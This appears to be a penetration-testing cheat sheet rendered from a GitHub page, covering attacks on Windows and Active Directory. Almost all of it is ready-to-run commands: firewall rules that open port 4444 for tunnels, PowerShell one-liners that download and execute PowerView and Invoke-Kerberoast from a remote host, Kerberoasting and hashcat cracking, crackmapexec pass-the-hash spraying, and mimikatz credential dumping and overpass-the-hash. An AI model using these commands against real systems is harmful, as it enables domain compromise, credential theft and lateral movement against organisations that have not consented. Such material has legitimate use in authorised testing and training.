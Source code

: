 ```
netsh advfirewall firewall add rule action=allow name=tunnelI dir=in protocol=tcp localport='80,443,4444'
netsh advfirewall firewall add rule action=allow name=tunnelO dir=out protocol=tcp remoteport='80,443,4444'
```
## Active Directory Useful Commands

### Import Powerview into memory and execute commands

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.101.24/powerview.ps1'); Get-DomainController
```

## Kerberoasting

InvokeKerberoast powershell script will request a service ticket from the DC for the service accounts which you can then copy and crack

```
IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.101.24/Invoke-Kerberoast.ps1')
Invoke-Kerberoast -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath 'c:\users\public\HashCapture.txt' -Width 8000
hashcat -m 13100 -o cracked.txt -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

## Password Spraying using crackmapexec

```
crackmapexec smb 192.168.101.0/24 --local-auth -u Administrator -H a0989207854b684f07b5b6fe68169a35
crackmapexec smb 192.168.101.0/24 -u vixx -H 'aad3b435b51404eeaa35b51404ee:a0989207854b684f07b5b6fe68169a35'
```

## OverPass the hash using mimikatz commands

Dump hash and open a cmd shell as vixx using mimikatz(over pass the hash)

```
privilege::debug
sekurlsa::logonpasswords
sekurlsa::pth /user:vixx /domain:vixx.domain /ntlm:a0989207854b684f07b5b6fe68169a35 /run:PowerShell.exe
```

## Dump Local users NTLM hashes using mimikatz

```
privilege::debug
token::elevate
lsadump::sam
```
